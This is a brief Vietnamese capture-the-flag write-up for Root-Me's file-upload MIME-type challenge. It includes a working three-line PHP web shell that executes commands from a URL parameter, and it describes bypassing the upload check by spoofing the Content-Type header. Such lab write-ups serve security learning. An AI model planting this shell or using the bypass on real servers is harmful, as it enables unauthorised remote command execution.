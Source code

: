 ## Link challenge: [File upload - MIME type](https://www.root-me.org/en/Challenges/Web-Server/File-upload-MIME-type)

Như bài trước, ta tiếp tục dùng được source này để truy cập vào server thông qua upload file:
```
<?php
$output = system($_GET['command']);
echo "<pre>$output</pre>";
?>

```

Với MIME Type mà đề bài đã gợi ý, sau đó đọc trong ref thì biết rằng có thể upload đc file thông qua sửa Content-Type thành text/plain hoặc image/gif,... trong các trường hợp khác nhau để upload được file

![img1](https://i.imgur.com/nDulCqf.png)

Sau khi upload được file, ta lại thêm command để tìm kiếm và cat file chứa flag

![img2](https://i.imgur.com/GChsWDV.png)